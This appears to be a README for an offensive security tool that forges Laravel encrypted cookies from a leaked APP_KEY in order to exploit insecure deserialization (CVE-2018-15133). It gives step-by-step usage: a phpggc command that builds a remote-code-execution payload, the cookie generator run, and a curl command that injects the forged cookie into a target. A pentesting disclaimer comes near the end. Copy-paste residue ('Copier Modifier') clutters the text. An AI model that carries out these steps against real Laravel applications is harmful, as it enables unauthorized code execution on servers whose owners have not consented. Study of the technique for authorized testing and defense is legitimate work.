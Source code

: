 # 🔐 Laravel Cookie Generator – Exploiting APP_KEY-based Deserialization

This tool helps you generate **valid Laravel encrypted cookies** using a known `APP_KEY` and a custom PHP serialized payload (e.g. from `phpggc`).  
It is mainly used in the context of **insecure deserialization vulnerabilities** like [CVE-2018-15133](https://nvd.nist.gov/vuln/detail/CVE-2018-15133).

---

## 📌 Purpose

When an attacker can obtain the `APP_KEY` of a Laravel application (via `.env` file, misconfigured endpoint, LFI...), they can:

- Forge a signed and encrypted cookie
- Inject malicious PHP objects for remote code execution
- Bypass cookie integrity checks (HMAC)

---

## 🛠️ Features

- AES-256-CBC encryption compatible with Laravel
- SHA256 HMAC generation
- Outputs base64-ready string for direct injection
- Works with any phpggc-generated payload

---

## 🧪 Usage Example

### 1. Generate a payload with [phpggc](https://github.com/ambionics/phpggc)

```bash
php phpggc Laravel/RCE1 system 'uname -a' > payload.txt
2. Install dependencies
bash
Copier
Modifier
pip install pycryptodome
3. Run the generator
bash
Copier
Modifier
python3 gen_laravel_cookie.py
This will output a cookie like:

css
Copier
Modifier
[+] Laravel Cookie to inject:
eyJpdiI6IkxWbWdn... (base64 string)
4. Inject the cookie (with curl or Burp)
bash
Copier
Modifier
curl -k --cookie "XSRF-TOKEN=eyJpdiI6..." http://target-ip:port/
🖼️ Example Screenshot
Replace the image below with a relevant screenshot (e.g., phpggc + output + curl):

scss
Copier
Modifier
📸 ![demo](images/demo.png)
Create a folder called images/ and place your screenshot as demo.png.

🔑 Requirements
Python 3.6+

pycryptodome

A valid Laravel APP_KEY (base64 format)

⚠️ Disclaimer
This tool is provided for educational and authorized penetration testing purposes only.
Do not use it against systems you do not have explicit permission to assess.

📂 File Structure
bash
Copier
Modifier
laravel-cookie-generator/
├── gen_laravel_cookie.py     # The main script
├── payload.txt               # Serialized payload (input)
├── README.md                 # This file
└── images/
    └── demo.png              # Optional screenshot
✉️ Author
Tool developed by a security researcher passionate about web exploitation, deserialization, and Active Directory attacks.
Feel free to contribute, fork, or open an issue!

bash
Copier
Modifier
